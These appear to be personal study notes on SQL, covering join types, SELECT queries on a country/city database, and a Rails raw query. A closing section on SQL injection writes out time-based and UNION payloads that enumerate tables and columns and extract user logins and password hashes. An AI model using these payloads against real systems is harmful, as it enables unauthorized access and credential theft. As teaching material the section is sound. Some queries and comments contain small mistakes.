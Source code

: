 # SQL

* Designed to work with *Relational Databases*
* A query result is best described as a *record* (i.e., not a row as query results may be columns as well)

## Language

* Relational Database: a data store that is capable of representing relationships between different data sets.
  - displayed in rows and columns
* DML: add, query, manipulate, delete data from tables and datasets.
* DDL: defines tables, indexes, and relationships.
* DMS - Database Management System: Oracle, PostgreSQL, SQLite, MySQL

## Joins

* `INNER JOIN` or typically just `JOIN` as this is the default:
![Inner Join](/assets/inner_join.png)

* `LEFT OUTER JOIN` or typically just `LEFT JOIN`:
![Left Join](/assets/left_outer_join.png)

* `RIGHT OUTER JOIN` or typically just `RIGHT JOIN` - not supported in many database systems such as SQLite:
![Right Join](/assets/right_outer_join.png)

* `FULL OUTER JOIN` or typically just `FUL JOIN` - not supported in many database systems such as SQLite:
![Right Join](/assets/full_outer_join.png)

## SQL Practice

### Format
* SQL *statements* that begin with `SELECT` are commonly referred to as "SELECT Statements".
```SQL
-- KEYWORD;
SELECT table.* FROM table;
```
* Common [SQL clauses](https://en.wikipedia.org/wiki/SQL_syntax#Queries): `FROM`, `WHERE`, `GROUP BY`, `ORDER BY`, `DISTINCT`
```SQL
-- Select all attributes with FROM and WHERE clause
SELECT country.* FROM country WHERE country.continent = 'Asia';

-- Select specific attributes
SELECT country.name, country.population, country.region
  FROM country
  WHERE country.continent = 'Asia';

-- Rename Attribute
SELECT country.name, country.population as 'Pop', country.region
  FROM country
  WHERE country.continent = 'Asia';
```
* Functions: `COUNT(*)`
```SQL
SELECT COUNT(*) FROM country WHERE country.continent = 'Asia';
```
* Expressions: Used to derive data from a statement.
```SQL
-- Multiple expressions
SELECT country.name, country.population / 1000000 as 'Pop (in millions)', country.region
  FROM country
  -- Logical Expression
  WHERE country.continent = 'Asia' AND country.population > 1000000
  -- With order clause
  ORDER BY country.population DESC;
```

```SQL
  -- ORDER By
  SELECT country.* FROM country WHERE country.code <> "AFG" ORDER BY country.code;

  -- Not Equal To <>
  SELECT country.* FROM country WHERE country.code <> "AFG" ORDER BY country.code;

  -- AS for a column name
  SELECT country.name, country.code, country.IndepYear AS 'Year of Independence' FROM country WHERE country.code <> "AFG" ORDER BY country.code;
```

Return the capital cities of countries with more than a million population in order of continent and population.
```SQL
-- Countries where populations is >= 10 million
SELECT country.continent, country.name, country.capital, country.population / 1000000 AS 'PopMM'
  FROM country
  WHERE country.population >= 10
  ORDER BY country.continent ASC, country.population DESC
```
```SQL
SELECT c.continent, c.name AS 'Country', c.capital, c.PopMM AS 'Population (in millions)', city.name AS 'Capital'
  FROM (
    -- Countries where populations is >= 10 million
    SELECT country.continent, country.name, country.capital, country.population / 1000000 AS 'PopMM'
      FROM country
      WHERE country.population >= 10
      ORDER BY country.continent ASC, country.population DESC
  ) AS c
  JOIN city
  -- In this case you can use ON or WHERE
  ON city.id = c.capital
  ORDER BY c.continent, c.PopMM DESC;
```

### Expressions

```SQL
-- COUNT
SELECT COUNT('country.*') FROM country;
-- COUNT('country.*')
-- 239
SELECT COUNT(*) FROM country;
-- COUNT(*)
-- 239
```

```SQL
-- Arithmetic
SELECT 1+10;
```

*SQLite* [date and time functions](https://sqlite.org/lang_datefunc.html)

```SQL
-- This is SQLite specific
SELECT strftime('%j %H %w %f', datetime());
-- strftime('%j %H %w %f', datetime())
-- 228 12 3 11.000
```

### Null

* `NULL` is a state not a value.

## LeftOuterJoin

Keeps all the records on the left after the join occurs - otherwise, it would just join with the right table and return only those results that can be joined

To practice writing in rails:

```SQL
ActiveRecord::Base
  .connection
  .execute(
    "SELECT \"events\".*
    FROM \"events\"
    ORDER BY \"events\".updated_at DESC"
  )
  .to_a.first
```

## SQL Injection

[Running an SQL Injection Attack - Computerphile](https://youtu.be/ciNHn38EyRc)

```SQL
-- SLEEP is an SQL command
SELECT ? FROM ? WHERE ? LIKE %hammer% AND 0 = SLEEP(2);

-- UNION Appends - makes sure column count matches

-- Get the table names of all the tables
-- we are selecting 3 columns b/c it must match the original SELECT call
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3 FROM information_schema.table); --%';

-- Get the column names of the users table
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT COLUMN_NAME, 2, 3 FROM information_schema.columns WHERE TABLE_NAME = 'users'); --%';

-- GEt the particular data for each user
SELECT ?,?,? FROM ? WHERE ? LIKE %hammer% UNION (SELECT uLogin, uHash, uType FROM users); --%''
```

![SQL_Injected_Products_Table](/assets/sql_injected_products_table.png)

## HTTP vs TCP vs UDP
